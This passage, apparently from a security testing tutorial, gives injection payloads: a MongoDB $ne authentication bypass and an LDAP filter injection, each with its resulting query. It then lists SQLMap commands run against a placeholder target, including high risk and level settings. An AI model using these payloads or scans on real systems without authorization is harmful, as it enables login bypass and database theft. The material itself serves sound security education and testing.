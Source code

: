 #### 2. NoSQL Injection
```javascript
// MongoDB injection example
// Normal query
db.users.find({username: "admin", password: "password123"})

// Malicious input
username[$ne]=null&password[$ne]=null

// Resulting query
db.users.find({username: {$ne: null}, password: {$ne: null}})
```

#### 3. LDAP Injection
```bash
# Normal LDAP query
(uid=admin)(password=secret)

# Malicious input
admin)(&(password=*

# Resulting query (bypasses password check)
(uid=admin)(&(password=*)(password=secret))
```

---

## SQL Injection Testing Tools

### Automated Tools

#### SQLMap
The most popular automated SQL injection testing tool.

**Basic Usage:**
```bash
# Test a single URL parameter
sqlmap -u "http://target.com/page.php?id=1"

# Test POST data
sqlmap -u "http://target.com/login.php" --data "username=admin&password=pass"

# Test from saved request file
sqlmap -r request.txt

# Specify database management system
sqlmap -u "http://target.com/page.php?id=1" --dbms=mysql

# Increase verbosity and risk levels
sqlmap -u "http://target.com/page.php?id=1" --level=5 --risk=3
```
